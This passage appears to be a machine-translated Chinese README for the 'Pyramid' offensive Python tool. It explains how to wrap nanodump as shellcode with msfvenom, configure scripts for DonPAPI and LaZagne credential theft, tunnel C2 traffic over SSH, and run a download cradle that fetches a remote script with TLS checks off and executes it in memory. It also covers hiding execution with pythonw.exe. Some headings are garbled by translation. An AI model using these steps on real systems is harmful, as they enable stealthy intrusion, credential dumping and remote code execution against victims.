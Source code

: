 `**msfvenom -p generic/custom PAYLOADFILE=nanodump.x64.bin -f python > sc_nanodump.txt**`

然后将其粘贴到 shellcode 变量内的基本脚本中。

*   **基础-隧道-注入比**
    *   在脚本的上部插入 SSH 服务器、本地端口转发详细信息和 HTTPS 凭据，并使用您首选的外壳代码 stager 修改 sc 变量。记住使用 SSH 本地端口转发您的流量，因此 stager 应该将 127.0.0.1 作为 C2 服务器，将 SSH 侦听端口作为 C2 端口。
*   **base-DonPAPI.py**
    *   在脚本的上半部分插入广告细节和 HTTPS 凭证。
*   **基地拉齐奥. py**
    *   在脚本的上半部分插入 HTTPS 凭证，并根据需要更改 lazagne 模块。
*   **base-clr.py**
    *   在要加载的文件的脚本和程序集字节的上部插入 HTTPS 凭据。
*   **base-tunnel-socks5.py**
    *   在脚本的上部插入参数。

#### 解压缩嵌入式包并在目标上执行下载支架

一旦金字塔服务器正在运行，基本脚本准备就绪，您可以从 python.exe 执行下载摇篮。Python 下载平台可以简单到:

```
import urllib.request
import base64
import ssl

gcontext = ssl.SSLContext(ssl.PROTOCOL_TLS_CLIENT)
gcontext.check_hostname = False
gcontext.verify_mode = ssl.CERT_NONE
request = urllib.request.Request('https://myIP/base-bof.py')
base64string = base64.b64encode(bytes('%s:%s' % ('testuser', 'Sup3rP4ss!'),'ascii'))
request.add_header("Authorization", "Basic %s" % base64string.decode('utf-8'))
result = urllib.request.urlopen(request, context=gcontext)
payload = result.read()
exec(payload)
```

请记住，urllib 是一个可嵌入的包原生 Python 模块，因此您不需要为这个摇篮安装额外的依赖项。下载的 python“基本”脚本将在内存中导入依赖项，并在 python.exe 进程中执行其功能。

#### 执行金字塔时没有可视提示

要在不显示 python.exe 提示的情况下执行金字塔，您可以利用 pythonw.exe，它在执行时不会打开控制台窗口，并且包含在同一个 Windows 嵌入式包中。下图举例说明了 pythonw.exe 在远程计算机上执行 base-tunnel-socks5.py 而不打开 python.exe 控制台窗口的用法。

![](img/4c6d363cb02acecf5e4f08b2366e56b2.png)
